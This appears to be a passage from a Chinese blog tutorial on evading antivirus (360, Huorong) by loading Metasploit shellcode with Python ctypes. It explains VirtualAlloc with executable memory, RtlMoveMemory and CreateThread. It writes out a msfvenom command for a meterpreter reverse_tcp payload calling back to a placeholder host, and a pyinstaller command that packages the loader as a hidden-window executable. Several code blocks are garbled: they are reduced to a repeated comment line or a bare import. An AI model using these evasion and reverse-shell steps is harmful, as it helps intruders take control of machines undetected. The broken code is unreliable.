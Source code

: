 ```
#调用kernel32.dll动态链接库中的VirtualAlloc函数申请内存
```

复杂点的：

```
#调用kernel32.dll动态链接库中的VirtualAlloc函数申请内存
```

本人在实验过程中第二种写法没运行成功过，故本文的实验都是在第一种写法的代码上进行的，来大致解释下各个函数的意义：

windll是载入动态库的方法，kernel32是win32系统的动态库，由此可以知道ctypes 对win32的系统和程序会有较好的支持，对于64位的程序可能并不那么友好（手动捂脸）

VirtualAlloc这个与C中的具有一样的功能，参数也是一样，0x3000就是表示MEM_COMMIT | MEM_RESERVE，0x40就是PAGE_EXECUTE_READWRITE，可读写可执行，这个百度一下C语言的VirtualAlloc函数就知道了

RtlMoveMemory与2中的memcpy函数一样，这里就不过多解释，想深入了解的可以搜下

create_string_buffer() 将shellcode写入内存中，python的byte对象是不可以修改的.如果需要可改变的内存块，需要create_string_buffer()函数

CreateThread()和WaitForSingleObject()

请参考：

https://blog.csdn.net/u012877472/article/details/4972165

## 0x02 免杀对抗

本文只讨论使用python-ctypes模块加载shellcode的免杀思路和效果

在进行免杀对抗前，先来了解下杀软的查杀原理：

一般是匹配特征码，行为监测，虚拟机（沙箱），内存查杀等。360和火绒主要使用特征码检测查杀病毒（云查杀也是特征码检测）。

### 第一回合：Ctypes模块直接加载shellcode执行

Msf中生成payload:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=x.x.x.x lport=8080 -f c
```

注意：我的python是64位的，在我的环境中如果采用windows/meterpreter/reverse_tcp这个payload，最后实验会失败；但在一些x64的python中又是可以的，这里大家多尝试

上代码：

```
import ctypes
```

可以看到这里加载执行shellcode的代码和上面是不太一样的，这是我环境的特殊性（再次捂脸），但在一些x64位的环境中又是没问题的，造成这样的原因是x86和x64的兼容性问题。具体的原因分析请参考文末的参考链接

经过测试，这里将c_uint64改为c_int64,c_void_p都能成功，

运行ms1.py，能成功上线并执行命令

打包：

```
pyinstaller -F -w ms1.py
```
